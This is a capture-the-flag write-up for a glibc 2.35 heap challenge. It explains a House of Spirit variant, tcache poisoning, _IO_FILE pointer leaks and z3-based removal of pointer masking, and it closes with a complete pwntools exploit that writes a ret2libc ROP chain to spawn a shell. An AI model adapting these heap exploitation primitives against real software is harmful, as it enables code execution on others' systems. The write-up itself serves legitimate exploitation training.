





- This challenge binary is implemented in `glib 2.35`, where safe-linking has been established
- It's your typical #heap menu challenge with some interesting behavior
- It allows for a **single** leak, but the leak performs its own "safe-link" with a random 64-bit number that has been `shr 28`, so a 38-bit number
	- We can utilize a SAT-solver like #z3 for this solution
- The binary also has an annoying feature where, every time we `malloc`, it performs two `malloc`'s, one for our note, and another for the note structure, which is a `0x10` byte chunk with the pointer to our note in it's first quadword
	- Each `free` first `free`'s the pointer in the note structure's quadword before `free`ing the note structure itself
- The challenge also prints a logo each time we re-enter the menu, and it does so utilizing an `_IO_FILE` struct on the heap which will be pivotal for providing additional leaks

- In order for us to exploit this binary, we need to implement a #HouseOfSpirit variant, where we allocate a chunk on the `heap` that contains dummy chunks with valid metadata
	- We'll then `free` these dummy chunks, `free` the housing chunk, re-allocate the housing chunk, and each time we write to the housing chunk we'll be overwriting the `free`'d dummy chunks in `tcache`, allowing for `tcache` poisoning
- We also need to exploit the `_IO_FILE` struct through arbitrary writes via `tcach` poisoning
	- If we change the file struct's `read_ptr` and `read_end`, to specific addresses of our choosing, we can leak data before the structure returns back to printing the rest of the logo
	- With this, we can leak `libc` and subsequently the `stack` via `libc.sym.environ`
### \_IO_FILE
```c
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  ...
```
- [More Info Here](https://elixir.bootlin.com/glibc/glibc-2.35/source/libio/bits/types/struct_FILE.h#L51)
### Stripping Randomness With Z3
```python
def strip_rand(secret: int, offset: int) -> int:
    """removes the manual "safe-linking" applied to first quadword of allocation"""
    addr = BitVec("addr", 64)
    random = BitVec("random", 64)
    s = Solver()
    # taken directly from static RE
    s.add((random & 0xFFFFFFF000000000) == 0)
    s.add((addr ^ random) == secret)
    s.add(random - (addr >> 12) == offset)
    assert s.check() == sat, "unsolveable"
    return s.model()[addr].as_long()
```

- Through static RE of the binary, we learn that a random quadword is derived from `/dev/urandom` and then `shr 28`, meaning that we're dealing with a random 36 bit number.
	- We constrain the solver with `random & 0xFFFFFFF000000000 == 0`
- The rest of the constraints are taken directly from operations seen in static RE

### Arbitrary Free
```python
def arbitrary_free(addr: bytes) -> None:
    """Function to arbitrarily free the heap chunk at the given address"""
    # create and free two large chunks
    # this creates and frees 2 note structures pointing to the large chunks
    malloc(secret=False, idx=1, msg=b"\n", size=0x20)
    malloc(secret=False, idx=2, msg=b"\n", size=0x20)
    free(idx=1)
    free(idx=2)
    # create a chunk pointing to the address we want to free, and free it, cascade
    # this will create two 0x10 byte chunks, the last of which being the first large chunk's note structure header
    malloc(secret=True, idx=3, msg=addr)
    # free our fake note structure header and the chunk we've told it to point to!
    free(idx=1)
```

- First, we `malloc` two large(r than the note structure) chunks (non-secret, allows arbitrary size definition). In doing so, we create two `0x10` byte note structure chunks and the two `0x20` byte note chunks, the note structures pointing to the notes


- Then, we `free` both chunks, subsequently freeing both `0x20` note chunks and both `0x10` note structure chunks


- We allocate a secret (`0x10` byte) chunk which grabs the latest note structure chunk that was `free`'d and overwrite its first `0x8` bytes, in this case with `a`'s


- When we call `free` on this chunk, it will first `free` the first `0x8` bytes, as it thinks its a pointer to the note it's managing, then the note struct will be `free`'d
- This gives us the ability to arbitrarily `free` any address we specify!

### Arbitrary Write
```python
def arbitrary_write(large_chunk_addr: int, addr: int, msg: bytes) -> None:
    """Function to arbitrarily write to an address using the heap"""
    nested_chunk_1_addr = large_chunk_addr + 0x20
    nested_chunk_2_addr = large_chunk_addr + 0x60
	
    # create an 0xb0 sized chunk containing two fake 0x40 chunks at heap offset 0x14f0
    malloc(
        secret=False,
        idx=4,
        msg=b"a" * 0x18 + (p64(0x41) + b"b" * 0x38) * 2 + b"\n",
        size=0xA0,
    )
	
    # free the second fake chunk within our large chunk
    arbitrary_free(p64(nested_chunk_2_addr))
    # free the first fake chunk within our large chunk
    arbitrary_free(p64(nested_chunk_1_addr))
    # free our large chunk that houses these two fake ones
    free(idx=4)
	
    # poison the nested chunk tcache so that the second chunk points to the io file struct
    malloc(
        secret=False,
        idx=5,
        msg=b"c" * 0x18 + p64(0x41) + p64(mangle(nested_chunk_1_addr, addr)) + b"\n",
        size=0xA0,
    )
    # allocate until we get the poisoned chunk
    malloc(secret=False, idx=6, msg=b"\n", size=0x38)
    malloc(secret=False, idx=7, msg=msg + b"\n", size=0x38)
```

- First, we `malloc` a large chunk that will be able to house two dummy chunks within it, both with valid metadata


- Then, using our [[#Arbitrary Free]], we `free` the two dummy chunks within, and the housing chunk itself
	- It's not made as clear here due to the integrated step of `tcache` poisoning


- When we re-allocate our large chunk, we write whatever we want into it, overlapping with the two `tcache`'d chunks, allowing for tcache poisoning and subsequent arbitrary write!
- We will use this to write addresses we want leaked to the `_IO_FILE` structure , and finally, our ROP chain on the `stack`

### solve
```python
#!/usr/bin/env python3

from pwn import *
from z3 import *

exe = "./unsafe-linking_patched"
elf = context.binary = ELF(exe, checksec=False)
libc = "./libc.so.6"
libc = ELF(libc, checksec=False)
context.terminal = ["tmux", "splitw", "-h"]

def malloc(secret: bool, idx: int, msg: bytes, size: int = 0) -> None:
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"secret?", str(int(secret)).encode())
    io.sendlineafter(b"Which page", str(idx).encode())
    if not secret:
        io.sendlineafter(b"How many bytes", str(size).encode())
    io.sendafter(b"Content:", msg)

def free(idx: int) -> None:
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"delete", str(idx).encode())

def read(idx: int) -> tuple[int, int]:
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"read", str(idx).encode())
    io.recvuntil(b"Secret ")
    secret = int(io.recvuntil(b"(", drop=True), 16)
    io.recvuntil(b"off= ")
    offset = int(io.recvuntil(b")", drop=True), 16)
    return secret, offset

def mangle(heap_addr: int, dst: int) -> int:
    assert dst & 0xF == 0, "Least Significant Nibble must resolve to 0x0"
    return (heap_addr >> 12) ^ dst

def strip_rand(secret: int, offset: int) -> int:
    """removes the manual "safe-linking" applied to first quadword of the allocation we want to read()"""
    addr = BitVec("addr", 64)
    random = BitVec("random", 64)
    s = Solver()
    # taken directly from static RE
    # constrain to possible hex space: hex((2**64 - 1) >> 28) is 9 nibbles hence 9 0s
    s.add((random & 0xFFFFFFF000000000) == 0)
    s.add((addr ^ random) == secret)
    s.add(random - (addr >> 12) == offset)
    assert s.check() == sat, "unsolveable"
    return s.model()[addr].as_long()

def arbitrary_free(addr: bytes) -> None:
    """Function to arbitrarily free the heap chunk at the given address"""
    # create and free two large chunks
    # this creates and frees 2 note structures pointing to the large chunks
    malloc(secret=False, idx=1, msg=b"\n", size=0x20)
    malloc(secret=False, idx=2, msg=b"\n", size=0x20)
    free(idx=1)
    free(idx=2)
    # create a chunk pointing to the address we want to free, and free it, cascade
    # this will create two 0x10 byte chunks, the last of which being the first large chunk's note structure header
    malloc(secret=True, idx=3, msg=addr)
    # free our fake note structure header and the chunk we've told it to point to!
    free(idx=1)

def arbitrary_write(large_chunk_addr: int, addr: int, msg: bytes) -> None:
    """Function to arbitrarily write to an address using the heap"""
    nested_chunk_1_addr = large_chunk_addr + 0x20
    nested_chunk_2_addr = large_chunk_addr + 0x60
	
    # create an 0xb0 sized chunk containing two fake 0x40 chunks at heap offset 0x14f0
    malloc(
        secret=False,
        idx=4,
        msg=b"a" * 0x18 + (p64(0x41) + b"b" * 0x38) * 2 + b"\n",
        size=0xA0,
    )
	
    # free the second fake chunk within our large chunk
    arbitrary_free(p64(nested_chunk_2_addr))
    # free the first fake chunk within our large chunk
    arbitrary_free(p64(nested_chunk_1_addr))
    # free our large chunk that houses these two fake ones
    free(idx=4)
	
    # poison the nested chunk tcache so that the second chunk points to the io file struct
    malloc(
        secret=False,
        idx=5,
        msg=b"c" * 0x18 + p64(0x41) + p64(mangle(nested_chunk_1_addr, addr)) + b"\n",
        size=0xA0,
    )
    # allocate until we get the poisoned chunk
    malloc(secret=False, idx=6, msg=b"\n", size=0x38)
    malloc(secret=False, idx=7, msg=msg + b"\n", size=0x38)

context.log_level = "debug"
# io = gdb.debug(exe, "set follow-fork-mode parent\nc")
io = remote("recruit.osiris.bar", 21006)

# leak base heap address
malloc(secret=True, idx=0, msg=b"\n")
free(idx=0)
malloc(secret=True, idx=0, msg=b"\n")
secret, offset = read(idx=0)
heap_base = (strip_rand(secret, offset) << 12) - 0x1000
file_struct = heap_base + 0x2A0

# leak libc address
large_chunk_addr = heap_base + 0x14F0
msg = (
    p64(0xFBAD2488)  # flags
    + p64(heap_base + 0x308)  # read_ptr (addr of stdout struct)
    + p64(heap_base + 0x310)  # read_end (8 bytes after)
    + p64(heap_base + 0x310)  # read_base (not necessary?)
)
arbitrary_write(large_chunk_addr, file_struct, msg)
libc.address = (
    u64(io.recvuntil(b"======= NYUSec =======")[1:9]) - libc.sym._IO_2_1_stdout_
)

# leak environ address
large_chunk_addr = heap_base + 0x16A0
msg = (
    p64(0xFBAD2488)  # flags
    + p64(libc.sym.environ)  # read_ptr
    + p64(libc.sym.environ + 0x8)  # read_end (8 bytes after)
    + p64(libc.sym.environ + 0x8)  # read_base
)
arbitrary_write(large_chunk_addr, file_struct, msg)
stk_leak = u64(io.recvuntil(b"======= NYUSec =======")[1:9])

# construct ret2libc rop chain
rop = ROP(libc)
rop.raw(0)
rop.raw(rop.rdi.address)
rop.raw(next(libc.search(b"/bin/sh\x00")))
rop.raw(rop.ret.address)
rop.raw(libc.sym.system)

# write ropchain to stack
large_chunk_addr = heap_base + 0x17F0
create_ret_addr = stk_leak - 0x148
arbitrary_write(large_chunk_addr, create_ret_addr, rop.chain())

info("heap_base: %#x", heap_base)
info("libc_base: %#x", libc.address)
info("stk_leak: %#x", stk_leak)
io.interactive()

# flag{ea00610ef917558d1cffe6ce257279dcc8641b3d}
```


